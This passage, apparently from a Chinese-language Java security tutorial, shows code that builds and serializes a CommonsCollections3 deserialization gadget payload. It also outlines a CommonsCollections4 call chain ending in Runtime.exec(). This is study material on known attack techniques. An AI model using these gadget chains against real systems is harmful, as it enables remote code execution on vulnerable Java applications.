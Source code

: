```
        HashMap InnerMap = new HashMap();
        Transformer[] trans = new Transformer[]`{`
         new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[]`{`Templates.class`}`,
                        new Object[]`{`tmp`}`  //将TemplasImpl的实例放进参数值位置，从而调用newInstance实例化传入
                        )
        `}`;
        //封装chained和lazymap
        ChainedTransformer chined = new ChainedTransformer(trans);
        Map outmap = LazyMap.decorate(InnerMap,chined);
        //接下来的构造与commonscollection1相同
        final Constructor con = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        con.setAccessible(true);
        InvocationHandler han = (InvocationHandler)con.newInstance(Override.class,outmap);
        Map proxy = (Map) Proxy.newProxyInstance(exp.class.getClassLoader(),outmap.getClass().getInterfaces(),han);
        final Constructor out_con = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        out_con.setAccessible(true);
        InvocationHandler out_han = (InvocationHandler) out_con.newInstance(Override.class,proxy);
        //序列化
        File file;
        file = new File(System.getProperty("user.dir")+"/javasec-ysoserial/src/main/resources/commoncollections3.ser");
        FileOutputStream fo = new FileOutputStream(file);
        ObjectOutputStream ObjOut = new ObjectOutputStream(fo);
        ObjOut.writeObject(out_han);
    `}`
`}`
```



## CommonsCollections4

反序列化调用链如下所示：

```
PriorityQueue.readObject()
     PriorityQueue.heapify()
        PriorityQueue.siftDown()
              PriorityQueue.siftDownUsingConparator()
　　　　　　　　　　　ChainedTransformer.transform()
　　　　　　　　　　　　　　InstantiateTransformer.transform()
                             (TrAXFilter)Constructor.newInstance()
　　　　　　　　　　　　　　　　　　　　templatesImpl.newTranformer() 
  　　　　　　　　　　　　　　　　　　　　　　Method.invoke() 　　　　     
                                            Runtime.exec()
```
